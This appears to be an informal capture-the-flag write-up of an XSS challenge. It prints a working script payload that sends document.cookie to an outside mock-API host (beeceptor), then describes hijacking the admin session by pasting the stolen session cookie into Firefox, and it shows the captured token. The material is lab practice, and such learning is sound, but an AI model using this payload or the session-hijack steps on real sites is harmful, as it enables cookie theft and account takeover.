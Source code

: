 On this challenge i did some cheating
I have come across some other xss challenges like last years google ctf. I know how xss works but most of the time I just test if i can get the xss to work with a simple
alert("hi). In the writeups before I have seen people set up severs to connect to trough the xss

As I could not do these challenges during the accual CTF time and did them in the week/weekend after I could just lookup the flag and check if my xss would hve been correct.
I was lucky tough. The writeup i read started of by setting up a mock api at:
https://beeceptor.com

Awesome! I had not seen the used xss or the flag so I could try it out myself and see if i can get something to come into my mock api.
So i tested my xss:
<script>location.href="https://paulovh.free.beeceptor.com?"+ document.cookie</script>

and yes i get the incomming flag on the beeceptor page! awesome no need to set up a whole server to listen to connections :D

I tried putting the session cookie i also recieved in the cookies of my firefox browser and go to the admin page:
open dev tools of firefox,
go to the storage tab
click the + to add a cookie
change the name to session
and the value to the gotten session cookie HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV 

This page shows the same flag as i already got from the cookie field so seems like there is no second flag in this challenge.


